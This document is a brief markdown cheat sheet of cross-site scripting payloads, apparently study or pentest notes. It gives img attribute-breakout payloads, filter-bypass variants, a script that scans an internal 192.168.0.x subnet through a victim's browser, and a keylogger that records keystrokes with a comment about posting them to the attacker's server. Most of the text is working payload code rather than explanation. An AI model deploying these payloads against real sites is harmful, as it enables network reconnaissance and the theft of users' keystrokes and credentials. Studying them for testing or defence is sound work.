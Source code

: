 # XSS


```
Reflective XSS
```

To get the client ip address with xss can use

```
window.location.hostname
```

```
DOM Based XSS
```

Break out of img src and then insert code as mouseover event:

```
test" onmouseover="document.body.style.backgroundColor = 'red'
```

```
test" onmouseover="alert('Hello')
```

```
IP and port scanning
```

Script which can be used to complete port scanning on a network with xss vulnerability

```
<script>
for (let i = 0; i < 256; i++) {
  let ip = '192.168.0.' + i

  let code = '<img src="http://' + ip + '/favicon.ico" onload="this.onerror=null; this.src=/log/' + ip + '">'
  document.body.innerHTML += code
}
</script> 
```

```
Keylogger
```

Javascript can even be used for keylogging with the example script

```
 <script type="text/javascript">
 let l = ""; // Variable to store key-strokes in
 document.onkeypress = function (e) { // Event to listen for key presses
   l += e.key; // If user types, log it to the l variable
   console.log(l); // update this line to post to your own server
 }
</script> 
```

```
Bypass filters
```

To bypass word filter can use payload like

`<img src="blah" onerror=alert("HHelloello") />`

`<img src="blah" ONERROR=alert("HHelloello") />`
